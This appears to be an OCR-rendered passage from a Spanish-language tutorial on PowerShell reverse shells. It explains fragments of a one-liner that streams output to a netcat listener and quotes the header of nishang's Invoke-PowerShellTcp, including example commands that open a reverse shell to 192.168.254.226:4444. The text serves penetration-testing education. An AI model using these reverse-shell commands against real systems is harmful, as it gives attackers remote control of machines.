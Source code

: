 ### **Conjuntos SendByte**

Introducción a las cargas útiles

```
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}

```

Establece/evalúa la variable`$sendbyte`igual a (`=`) La transmisión de byte codificada ASCII que usará un cliente TCP para iniciar una sesión de PowerShell con un oyente NetCat que se ejecuta en el cuadro de ataque.

### **Terminar la conexión TCP**

Introducción a las cargas útiles

```
$client.Close()"

```

Este es el[TCPClient.CLOSE](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0)Método que se utilizará cuando se termine la conexión.

La línea única que acabamos de examinar juntos también se puede ejecutar en forma de un script de PowerShell (`.ps1`). Podemos ver un ejemplo de esto al ver el código fuente a continuación. Este código fuente es parte del[nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)proyecto:

Código:powershell

```powershell
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target.
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch.
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port.
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>
```